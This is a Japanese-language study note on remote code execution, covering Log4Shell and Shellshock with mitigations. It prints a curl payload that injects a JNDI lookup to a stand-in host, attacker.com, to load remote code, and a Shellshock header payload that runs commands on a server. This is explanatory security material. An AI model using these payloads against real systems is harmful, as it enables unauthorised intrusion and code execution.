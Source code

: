 ## 概要
**RCE（Remote Code Execution）**は、攻撃者がリモートからサーバーやアプリケーションに悪意のあるコードを実行できる脆弱性です。この脆弱性が悪用されると、攻撃者は対象システム上で任意の操作を行うことが可能になり、データの窃取、システムの制御、マルウェアのインストールなどが行われる危険があります。RCEは特に深刻で、システム全体のセキュリティに重大なリスクをもたらします。

- ### Log4Shell
**Log4Shell**（CVE-2021-44228）は、Apache Log4j 2.xの重大なリモートコード実行（RCE）脆弱性です。この脆弱性は、Log4jのログメッセージ内で任意のデータを処理する際にJNDI（Java Naming and Directory Interface）を介して外部リソースへの参照が可能になるため、攻撃者が悪意のあるコードを実行することを可能にします。

実行方法の例

以下の例では、脆弱なLog4jを使用しているアプリケーションに対して、User-Agentヘッダーに悪意のあるペイロードを挿入し、リモートコードを実行します。

- `curl -X GET http://victim-server.com -H 'User-Agent: ${jndi:ldap://attacker.com/a}'`

各部分の説明

• curl -X GET http://victim-server.com: 脆弱なサーバーに対してHTTP GETリクエストを送信します。
• -H 'User-Agent: ${jndi:ldap://attacker.com/a}': User-Agentヘッダーに悪意のあるJNDI Lookupを含むペイロードを設定します。attacker.comは攻撃者が制御しているLDAPサーバーです。

#### 攻撃の流れ

- `1.	脆弱なLog4jを使用しているサーバーが、このリクエストを受け取ると、User-Agentヘッダーをログに記録しようとします`。
- `2.	Log4jは${jndi:ldap://attacker.com/a}という式を解釈し、JNDIを介して指定されたLDAPサーバーに接続します。`
- `3.	攻撃者が制御するLDAPサーバーが、悪意のあるJavaクラスをサーバーに返し、結果としてサーバー上で任意のコードが実行されます。`

#### 影響
Log4jを使用しているJavaアプリケーションが対象で、特にインターネットからログメッセージやユーザー入力を受け取るアプリケーションが影響を受けやすいです。

#### 対策
- Log4jのバージョンを2.16.0以降にアップデートする。
- JNDIの機能を無効化する設定を行う（`log4j2.formatMsgNoLookups`を`true`に設定するなど）。
この脆弱性は、広範囲にわたる影響を及ぼし、特にサーバーやクラウド環境で運用されている多くのJavaアプリケーションに影響を与えました。

### シェルショック
シェルショック（Shellshock）脆弱性は、特にWebサーバーがBashを使用している場合、ブラウザ経由で悪用される可能性がありました。具体的には、WebサーバーがCGIスクリプト（Common Gateway Interface）を使ってBashを呼び出す場合、HTTPリクエストの特定のヘッダーに悪意のあるコードを仕込むことで、リモートコード実行（RCE）が可能になります。

#### 概要
ブラウザからHTTPリクエストを送信する際に、リクエストヘッダーに悪意のある環境変数を設定し、脆弱なサーバーがそのヘッダーを処理することで、任意のコードがサーバー上で実行されるという手法です。

#### 実行方法の例
以下は、`curl`コマンドを使ってシェルショック脆弱性を悪用する例です。`User-Agent`ヘッダーに悪意のあるコードを注入し、それをCGIスクリプトが処理すると、サーバー上でコードが実行されます。

```bash
curl -A '() { :; }; echo; /bin/bash -c "echo Vulnerable; /bin/uname -a"' http://example.com/cgi-bin/vulnerable-script
```

#### 各部分の説明

- `curl -A '() { :; }; echo; /bin/bash -c "echo Vulnerable; /bin/uname -a"'`: `User-Agent`ヘッダーに悪意のあるBash関数を含むコードを送信します。
- `http://example.com/cgi-bin/vulnerable-script`: シェルショックに脆弱なCGIスクリプトが配置されているURLを指定します。
- `/bin/bash -c "echo Vulnerable; /bin/uname -a"`: `uname -a`コマンドを実行し、システム情報を表示するようにしています。

#### 実行結果

- 脆弱なサーバーの場合、サーバーが`Vulnerable`というメッセージとシステム情報を返します。
- 修正済みのサーバーの場合、ヘッダーがそのまま無視され、通常のレスポンスが返されます。

#### ブラウザ経由での実行
直接ブラウザを使ってこの攻撃を仕掛けることはできませんが、`curl`や`wget`などのコマンドラインツールや、専用のHTTPリクエスト作成ツールを使って実行できます。ブラウザの拡張機能を使ってカスタムHTTPリクエストを作成することも可能です。

#### 対策
- **Bashのアップデート**: 脆弱なバージョンのBashを使っているシステムを最新バージョンにアップデートします。
- **CGIスクリプトの見直し**: 特にインターネットに公開されているサーバーで、Bashに依存しているCGIスクリプトの利用を避けるか、脆弱性のないシェルを使用します。

**注意**: この情報は教育目的で提供されています。実際に脆弱性を悪用する行為は法律に反し、違法です。脆弱性の確認やテストを行う場合は、自分の所有するシステムまたは適切な許可を得たシステムで行ってください。
